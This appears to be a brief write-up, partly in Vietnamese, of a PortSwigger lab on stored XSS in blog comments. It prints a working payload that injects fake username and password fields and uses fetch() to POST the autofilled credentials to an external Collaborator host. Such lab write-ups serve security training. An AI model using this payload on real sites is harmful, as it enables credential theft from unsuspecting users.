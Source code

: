 # Target Goal: 

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

# Recon: 

Bài lab này được dựng trên lỗ hổng tự động fill password. Tuy nhiên trên thực tế nó khá là khó hiểu và ít khi xảy ra. Và bắt buộc phải dùng Burp Collabor

Payload:

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://cfvzx05voozswerxcklfpxbnoeu5iv6k.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

# Flag: 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/6294e03c-57c7-48cb-846d-7e8a281fc5f3)
